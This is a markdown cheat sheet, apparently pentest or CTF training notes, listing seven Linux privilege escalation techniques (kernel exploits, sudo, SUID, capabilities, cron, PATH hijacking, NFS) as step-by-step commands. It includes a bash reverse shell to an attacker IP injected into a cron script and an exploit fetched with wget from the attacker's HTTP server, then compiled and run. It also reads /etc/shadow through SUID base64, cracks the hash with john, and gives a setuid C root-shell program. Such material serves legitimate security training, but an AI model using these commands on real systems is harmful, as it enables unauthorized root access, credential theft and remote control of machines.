 # 🔐 Privilege Escalation (P.E.)

---

## (1) Kernel Exploit-Based Privilege Escalation

In this method, we exploit vulnerabilities in the kernel.

### Steps:

1. Gain access to the system.

2. Check the kernel version:

   ```bash
   uname -r
   ```

3. Search online for known exploits for that kernel version.

4. If an exploit is found, download it to your **local machine (Kali)**:

   ```bash
   cd ~/Downloads
   python3 -m http.server 8000
   ```

   This starts a local HTTP server.

5. On the **target machine**, navigate to `/tmp`, then download the exploit:

   ```bash
   wget http://<Your_Local_IP>:8000/<exploit_filename>
   ```

6. Compile the exploit:

   ```bash
   gcc <exploit_filename> -o exploit
   chmod +x exploit
   ```

7. Run the exploit:

   ```bash
   ./exploit
   ```

✅ You should now have root access.

---

## (2) Sudo-Based Privilege Escalation

This method exploits misconfigured `sudo` permissions.

### Steps:

1. Check sudo permissions:

   ```bash
   sudo -l
   ```
2. Identify exploitable binaries (e.g., `nano`, `less`).
3. Visit [GTFOBins](https://gtfobins.github.io/) and search for the binary.
4. Follow the instructions to escalate privileges.

✅ You’ll gain root access if the binary is misconfigured.

---

## (3) SUID-Based Privilege Escalation

This method uses files with the SUID bit set.

### Steps:

1. Find all SUID files:

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```
2. Check each binary on [GTFOBins](https://gtfobins.github.io/).
3. For example, using `base64`:

   ```bash
   LFILE=/etc/shadow
   /usr/bin/base64 "$LFILE" | base64 --decode
   ```
4. Save the hash:

   ```bash
   nano user2hash.txt
   ```
5. Crack it with `john`:

   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt user2hash.txt
   ```
6. Switch to the cracked user:

   ```bash
   su user2
   ```
7. Repeat for other protected files as needed.

✅ Now you can read restricted files.

---

## (4) Capabilities-Based Privilege Escalation

Linux capabilities may grant elevated privileges.

### Steps:

1. Check capabilities:

   ```bash
   getcap -r / 2>/dev/null
   ```
2. Match them on [GTFOBins](https://gtfobins.github.io/).
3. Example exploit:

   ```bash
   ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   ```

✅ You now have a root shell.

---

## (5) Cron Jobs-Based Privilege Escalation

This method exploits writable cron-executed scripts.

### Steps:

1. Check crontabs:

   ```bash
   cat /etc/crontab
   ```
2. Identify writable files:

   ```bash
   ls -la /path/to/script.sh
   ```
3. Inject a reverse shell:

   ```bash
   bash -i >& /dev/tcp/<Your_IP>/<Port> 0>&1
   ```
4. Start listener:

   ```bash
   nc -lvnp <Port>
   ```
5. Set permissions if needed:

   ```bash
   chmod +x /path/to/script.sh
   ```

✅ A reverse shell connects as root.

---

## (6) \$PATH-Based Privilege Escalation

This exploits commands executed without full paths.

### Steps:

1. Check PATH:

   ```bash
   echo $PATH
   ```
2. Prepend your directory:

   ```bash
   export PATH=/tmp:$PATH
   ```
3. Create a fake binary (e.g., `thm`):

   ```bash
   echo "/bin/bash" > /tmp/thm
   chmod +x /tmp/thm
   chmod +s /tmp/thm
   chmod 777 /tmp/thm
   ```
4. Check permissions:

   ```bash
   ls -la /tmp/thm
   ```
5. Run the vulnerable program:

   ```bash
   ./test
   ```

✅ You get root access.

---

## (7) NFS-Based Privilege Escalation

Abuse misconfigured NFS shares.

### Local Machine:

1. Check exported shares:

   ```bash
   showmount -e <Target_IP>
   ```

### Target Machine:

2. Confirm:

   ```bash
   cat /etc/exports
   ```

   Ensure `rw` and `no_root_squash` are enabled.

### Local:

3. Mount the share:

   ```bash
   mkdir /mnt/nfs
   mount -o rw <Target_IP>:/home/ubuntu/sharedfolder /mnt/nfs
   ```

4. Create a root shell script:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

5. Compile statically:

   ```bash
   gcc -static rootshell.c -o code
   chmod +x code
   chmod +s code
   ```

### Target:

6. Execute:

   ```bash
   ./sharedfolder/code
   ```

✅ Root shell gained.

---

